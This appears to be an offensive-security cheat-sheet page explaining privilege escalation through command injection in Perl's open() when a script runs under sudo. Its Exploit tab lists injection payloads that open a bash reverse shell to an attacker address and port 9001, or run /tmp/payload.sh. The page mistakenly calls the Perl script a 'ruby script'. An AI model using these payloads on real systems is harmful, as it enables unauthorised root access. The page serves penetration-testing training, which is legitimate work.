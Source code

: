 # Perl

## Theory

Perl scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, perl scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Open() Command Injection

{% tabs %}
{% tab title="Enumerate" %}
Assume the ruby script can be executed as root with sudo rights. If it use the `open()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/perl open.pl
```

Check if we have control over the input of the vulnerable function

```perl
my $file = <>;
open(FH, $file);
while (my $line = <FH>) {
  print($line);
}
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here is an example of a malicious payloads passed to the `open()` function:

```bash
|bash -c 'bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1'
bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1'|
|/tmp/payload.sh
```

{% hint style="info" %}
The `|` is a built in functionality used to execute the file when opening it. The file must be executable.
{% endhint %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://ippsec.rocks" %}
